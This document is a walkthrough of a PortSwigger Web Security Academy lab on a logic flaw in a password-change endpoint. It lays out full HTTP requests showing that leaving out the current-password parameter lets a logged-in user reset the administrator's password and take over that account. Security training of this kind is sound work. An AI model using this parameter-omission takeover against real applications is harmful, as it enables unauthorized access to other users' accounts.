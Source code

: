 # [Lab 6: Weak isolation on dual-use endpoint](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint)

---

## Description

This lab makes a flawed assumption about the user's privilege level based on their input. As a result, you can exploit the logic of its account management features to gain access to arbitrary users' accounts. To solve the lab, access the `administrator` account and delete Carlos.

You can log in to your own account using the following credentials: `wiener:peter`

---

## Solution

### Site Map

- `/`: Home page with links to blog posts
- `/post?postId=$POST_ID`: Blog post page
- `/login`: Login page
- `/my-account?id=$USERNAME`: User account page
	- `id` parameter is odd but appears to be secure
	- The application backend controls user data rendered to this page via the `session` cookie
- `/admin`: Admin page
	- "Admin interface only available if logged in as an administrator"
		- This appears to be checked on the backend via the `session` cookie


### Authentication

Login request:

```http
POST /login HTTP/1.1
Host: ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net
Cookie: session=zawX6hdWQ8cJt7kdmdnKKo7XHBqcK0So
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: https://ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net
Dnt: 1
Referer: https://ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=AKNhFLxUugJ3AmohWwGZI88uqEXwwKYv&username=wiener&password=peter
```

Success results in a 302 redirect to `/my-account`. Failure results in a 200 and the login page is re-rendered with the message: `Invalid username or password`.

Logout request:

```http
GET /logout HTTP/1.1
Host: ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net
Cookie: session=qPIU8NOYeZ6XAHnIFBkQmDUjMfes7siO
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Referer: https://ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

Results in an invalidation of the `session` cookie and a 302 redirect to `/`.

### Account Management Features

The challenge states that the logic of the application's account management features makes a flawed assumption about the user's privilege level based on their input and can be exploited to access arbitrary users' accounts.

When authenticated on the `/my-account` page, two account management features are present: update the account's email address or change its password. Begin analyzing the latter.

Change password request:

```http
POST /my-account/change-password HTTP/1.1
Host: ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net
Cookie: session=8K3bGmsScSECIfiDnjPNJGv0pwkGBHMj
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
Origin: https://ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net
Dnt: 1
Referer: https://ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=4bxZ2UDBR5dGVrjH0JIhge7CpqIA8s0D&username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

A successful response is a 200 and the `/my-account/change-password` page renders the string `Password changed successfully!`.

![](images/Pasted%20image%2020210828190122.png)

This feature *should* have logic similar to the following:
- If `username` exists and `session` exists and `username` maps to valid token `session`:
	- If `current-password` matches the current password for `username`:
		- If `new-password-1` == `new-password-2`:
			- Change the password
		- Else:
			- "New passwords don't match!"
	- Else:
		- "Incorrect current password!"
- Else:
	- Redirect to `/login`

However, it appears to have the following logic:
- If `session` exists and maps to a valid token:
	- If `current-password` exists:
		- If `current-password` does not match the current password for `username`:
			- "Current password is incorrect. Your username is `$USERNAME`"
	- If `new-password-1` == `new-password-2`:
		- Change the password of `username`'s account
- Else:
	- Redirect to `/login`

By omitting `current-password`, the application doesn't even check that it matches the current password of `username` before checking that the new password match and then changing the password of the account. This makes it possible to change the password of another account without knowing its password.

Change `administrator`'s password to `blah` by omitting `current-password`. Make sure to have an authenticated `session` cookie using the `wiener:peter` credentials.

```http
POST /my-account/change-password HTTP/1.1
Host: ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net
Cookie: session=8K3bGmsScSECIfiDnjPNJGv0pwkGBHMj
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: https://ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net
Dnt: 1
Referer: https://ace21fa71f5bbaf280155ab100b100c2.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=4bxZ2UDBR5dGVrjH0JIhge7CpqIA8s0D&username=administrator&new-password-1=blah&new-password-2=blah
```

![](images/Pasted%20image%2020210828193543.png)

Login with the credentials `administrator:blah`, access the administrative panel at `/admin`, and delete `carlos`' account to complete the challenge.

![](images/Pasted%20image%2020210828193737.png)
